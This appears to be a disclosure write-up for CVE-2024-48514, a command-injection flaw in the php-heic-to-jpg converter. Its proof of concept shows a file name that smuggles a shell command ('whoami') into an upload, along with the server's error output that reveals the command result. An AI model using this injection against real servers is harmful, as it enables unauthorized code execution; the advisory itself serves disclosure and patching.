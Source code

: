 # CVE-2024-48514: php-heic-to-jpg is vulnerable to Code Injection

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** This allows code injection by a user who can upload heic images, which affects the php-heic-to-jpg converter.  
**Versions Affected:** <= 1.0.5  
**Version Fixed:** [PullRequest #34](https://github.com/MaestroError/php-heic-to-jpg/pull/34) (1.0.6)  
**Researcher:** Marco Ris (https://github.com/marcoris)  
**Disclosure Link:** https://github.com/MaestroError/php-heic-to-jpg/issues/32  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-48514  

## Proof-of-Concept Exploit
### Description
php-heic-to-jpg <= 1.0.5 is vulnerable to code injection. An attacker who can upload heic images is able to inject code on the remote server via the file name. As a result, the CIA is no longer guaranteed. This affects php-heic-to-jpg 1.0.5 and below.  

### Usage/Exploitation
Upload a HEIC image file and intercept the request, e.g. with Burp Suite. Rename the file name to `”;whoami;#` and forward the request. The response shows the following error message with the disclosed `whoami` information:

```
The file &quot;;whoami;# has been uploaded.<br>
RuntimeException: Couldn't convert HEIC to JPG: 'Not enough arguments, needs: [command] [file1.heic] [file2.jpg]\nCreated by MaestroError\nwww-data' | Bin used: 'heicToJpg' HEIC: 'uploads/";whoami;#' Full Command: '/var/www/html/src/../bin/heicToJpg "uploads/";whoami;#" "uploads/";whoami;#-16541469646585ff874c9302.07761671" 2>&1' Output from heif-converter-image exe:  in /var/www/html/src/HeicToJpg.php:204
Stack trace:
#0 /var/www/html/src/HeicToJpg.php(71):
Maestroerror\HeicToJpg->processImage('uploads/";whoam...')
#1 /var/www/html/src/HeicToJpg.php(319):
Maestroerror\HeicToJpg->convertImage('uploads/";whoam...')
#2 /var/www/html/src/HeicToJpg.php(32):
Maestroerror\HeicToJpg::convert('uploads/";whoam...')
#3 {main}
```  
![Request with ";whoami;# filename](image.png)

![Response with code injection](image-1.png)
